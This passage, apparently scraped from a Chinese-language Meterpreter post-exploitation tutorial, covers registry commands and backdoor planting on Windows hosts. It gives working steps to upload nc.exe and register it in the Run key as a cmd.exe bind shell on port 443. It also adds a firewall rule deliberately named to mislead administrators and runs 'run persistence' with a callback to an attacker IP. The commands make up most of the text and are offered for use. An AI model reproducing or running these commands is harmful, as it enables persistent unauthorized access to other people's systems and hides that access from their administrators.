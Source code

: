 creds_all</code></pre>



#### kiwi

> 
<h3>2.8、注册表操作</h3>
<h4>基本命令</h4>
<pre><code>reg –h    #查看帮助
-k 注册表的路径 -v 键的名称 -d 键值 
reg enumkey [-k &lt;key&gt;]    #枚举注册表的内容
reg createkey [-k &lt;key&gt;]  #创建注册表项
reg deletekey [-k &lt;key&gt;]  #删除注册表项
reg setval [-k &lt;key&gt; -v &lt;val&gt; -d &lt;data&gt;]  #在注册表里添加内容
reg deleteval [-k &lt;key&gt; -v &lt;val&gt;]         #删除注册表的值
reg queryval [-k &lt;key&gt; -v &lt;val&gt;]          #查询注册表的值

</code></pre>
<hr/>
<h4>利用注册表添加nc后门</h4>
后门程序：编辑注册表，添加nc到系统启动项中
<pre><code>upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32 
    #上传nc到目标主机
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run   
    #枚举注册表run下的键值
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v test_nc -d 'C:\windows\system32\nc.exe -Ldp 443 -e cmd.exe' 
    #设置键值 -v 键的名称 -d 键值
reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v test_nc   
    #查询test_nc的键值
</code></pre>
<hr/>
设置防火墙允许通过443端口
注：目标主机开启防火墙，但未设置相应的规则可能会导致连接失败
<pre><code>shell
netsh firewall show opmode 
    #查看防火墙状态
netsh firewall add portopening TCP 443 "网络发现(Pub PSD-Out)" ENABLE ALL 
    #添加防火墙的规则允许443端口通过(这里“网络发现(Pub PSD-Out)”是规则名称，目的是为了迷惑管理员。) 
</code></pre>
<pre><code>待目标主机重启后，自启nc程序，利用nc连接
nc ip port</code></pre>


#### 利用注册表添加nc后门

---


> 
<h3>2.9、后门植入</h3>
通过漏洞获取到目标主机权限之后，如果目标主机主机重启或修补了漏洞，就会失去对服务器的控制权
需要通过植入后门来维持权限，nc后门、Persistence、Metsvc
<h4>Persistence(通过启动项安装)</h4>
<pre><code>run persistence –h  #查看帮助
run persistence -X -i 5 -p 4444 -r 192.168.183.147 
run persistence -U -i 5 -p 4444 -r 192.168.183.147 -L c:\\Windows\\System32

